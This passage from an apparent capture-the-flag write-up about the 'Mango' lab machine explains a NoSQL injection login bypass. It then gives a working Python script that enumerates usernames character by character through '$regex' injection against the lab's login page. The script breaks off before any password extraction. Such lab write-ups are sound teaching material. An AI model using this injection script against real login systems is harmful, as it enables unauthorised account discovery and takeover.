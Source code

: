 great we got in, we are redirected to home.php which is under construction page and has nothing useful  

![](images/home.php.png)

but we know that NoSQL worked so we can try to get the usernames and passwords  
so lets write a script to do so  

```python3
#!/usr/bin/python3

import requests
from string import printable, ascii_lowercase

url = "http://staging-order.mango.htb/index.php"

s = requests.Session()

data = {'username[$regex]':'', 'password[$regex]':'', 'login':'login'}

def getUsers():
	users = []
	for i in ascii_lowercase:
		data['username[$regex]'] = '^'+i
		r = s.post(url, data)
		if "home" in r.url:
			currentUser = i
			print(currentUser)
			flag = 0
			while True:
				if flag == 1:
					break
				for j in ascii_lowercase:
					data['username[$regex]'] = '^' + currentUser + j
					r = s.post(url, data)
					if "home" in r.url:
						currentUser += j
						print(currentUser)
						break
					elif j == ascii_lowercase[-1]:
						print("User Found: " + currentUser, end='\n\n')
						flag = 1
						break
```